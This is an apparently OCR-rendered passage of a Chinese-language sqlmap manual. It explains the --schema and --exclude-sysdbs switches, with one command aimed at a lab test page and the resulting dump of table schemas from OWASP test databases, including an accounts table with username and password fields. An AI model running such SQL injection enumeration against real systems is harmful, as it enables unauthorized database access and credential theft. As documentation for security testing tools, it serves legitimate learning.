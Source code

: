 #### **3.9.14 列举数据库管理系统模式**
> 开关 --schema和--exclude-sysdbs

用户可以使用此开关获取数据库的架构，包含数据库、表和字段，以及各自的类型。

使用`--exclude-sysdbs`，将不会获取数据库自带的系统库内容。

针对MySQL目标的示例：
```
python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --schema--batch --exclude-sysdbs
```
输出:
```
[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date         | datetime |
| blogger_name | text     |
| cid          | int(11)  |
| comment      | text     |
+--------------+----------+

Database: owasp10
Table: hitlog
[6 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| date     | datetime |
| browser  | text     |
| cid      | int(11)  |
| hostname | text     |
| ip       | text     |
| referer  | text     |
+----------+----------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...]
```